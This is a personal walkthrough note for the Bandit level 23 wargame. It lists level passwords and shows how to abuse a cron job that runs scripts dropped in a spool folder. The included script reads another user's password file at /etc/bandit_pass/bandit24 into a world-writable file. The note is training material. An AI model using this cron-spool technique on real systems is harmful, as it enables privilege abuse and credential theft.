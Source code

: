 
[Bandit](Bandit.md)     [[HACKING]]     [[LINUX]]

# Bandit - level 23

password: jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
solution: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 

## Level Goal  

A program is running automatically at regular intervals from cron, the
time-based job scheduler. Look in /etc/cron.d/ for the configuration and see
what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a
very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may
want to keep a copy around…

### Commands you may need to solve this level
cron, crontab, crontab(5) (use “man 5 crontab” to access this)

## Solution

1. `cat /etc/cron.d/cronjob_bandit24`
2. cat /usr/bin/cronjob_bandit24.sh`
3. in the script I see that all files in `/var/spool/bandit24` are being
   executed and deleted every minute. So the trick is to create a shell script
   which reads the password from bandit24 and writes it in a file. I then have
   to move my script to bandit24#s spool folder:
   ```
   rm -rf /tmp/bandit23
   mkdir /tmp/bandit23
   cd /tmp/bandit23
   
   touch get_password.sh
   chmod 777 get_password.sh
   
   touch password
   chmod 666 password
   ```
4. get_password.sh:
   ```
   #!/bin/bash
   cat /etc/bandit_pass/bandit24 > /tmp/bandit23/password
   ```
1. `cp get_password.sh /var/spool/bandit24`
2. wait for one minute and the password will be written to the file.



